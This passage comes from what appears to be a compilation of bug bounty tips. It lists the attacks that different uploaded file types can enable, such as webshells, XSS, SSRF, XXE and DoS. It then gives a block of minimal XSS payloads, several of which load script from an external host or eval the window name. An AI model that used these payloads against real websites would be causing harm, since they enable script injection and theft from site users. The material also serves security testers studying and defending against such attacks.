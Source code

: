 ![RapidDNS subdomain enumeration using bash function](assets/1710309234-646e6f86ed4062bafb5c7ba00a9323ff.jpg)

Very nice and quick.

## 8\. Top 10 what can you reach in case you uploaded..

By [@SalahHasoneh1](https://twitter.com/SalahHasoneh1)  
Source: [link](https://twitter.com/SalahHasoneh1/status/1281274120395685889)

Here’s a top 10 list of things that you can achieve by uploading:

1.  **ASP / ASPX / PHP5 / PHP / PHP3**: Webshell / RCE
2.  **SVG**: Stored XSS / SSRF / XXE
3.  **GIF**: Stored XSS / SSRF
4.  **CSV**: CSV injection
5.  **XML**: XXE
6.  **AVI**: LFI / SSRF
7.  **HTML / JS** : HTML injection / XSS / Open redirect
8.  **PNG / JPEG**: Pixel flood attack (DoS)
9.  **ZIP**: RCE via LFI / DoS
10.  **PDF / PPTX**: SSRF / BLIND XXE

## 9\. Tiny minimalistic XSS payloads

By [@terjanq](https://twitter.com/terjanq)  
Source: [link](https://twitter.com/terjanq/status/1281371112060968964)

Here’s collection of tiny XSS payloads made by [@terjanq](https://twitter.com/terjanq):

```bash
<!-- If number of iframes on the page is constant -->
<iframe/onload=src=top[0].name+/\Ǌ.₨?/>

<!-- If number of iframes on the page is random -->
<iframe/onload=src=contentWindow.name+/\Ǌ.₨?/>

<!-- If unsafe-inline is disabled in CSP and external scripts allowed -->
<iframe/srcdoc="<script/src=//Ǌ.₨></script>">

<!-- Just a casual script -->
<script/src=//Ǌ.₨></script>

<!-- If you control the name of the window -->
<iframe/onload=src=top.name>

<!-- If you control the name, will work on Firefox in any context, will fail in chromium in DOM -->
<svg/onload=eval(name)>
```